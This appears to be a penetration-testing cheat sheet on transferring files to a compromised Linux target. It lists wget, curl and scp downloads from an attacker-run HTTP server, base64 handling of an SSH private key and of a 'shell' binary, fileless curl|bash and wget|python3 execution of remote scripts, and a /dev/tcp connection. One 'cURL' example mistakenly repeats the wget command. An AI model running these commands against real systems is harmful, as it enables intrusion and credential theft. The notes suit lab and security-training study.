 # OPEN SERVER:
## PYTHON:

# WGET
- `python3 -m http.server 1234` local machine

- `wget http://10.10.14.1:8000/linenum.sh` target machine
- `curl http://10.10.14.1:8000/linenum.sh -o` linenum.sh

# SCP
- `scp linenum.sh user@remotehost:/tmp/linenum.sh` local machine

# Base64
## Encode SSH Key to Base64
- `cat id_rsa |base64 -w 0;echo`

## Decode the File
- `echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell`

# Web Downloads with Wget and cURL
## Download a File Using wget
- `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`

## Download a File Using cURL
- `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`

# Fileless Attacks Using Linux
## Fileless Download with cURL
- `curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash`

## Fileless Download with wget
- `wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3`

# Download with Bash (/dev/tcp)
## Connect to the Target Webserver
- `exec 3<>/dev/tcp/10.10.10.32/80`
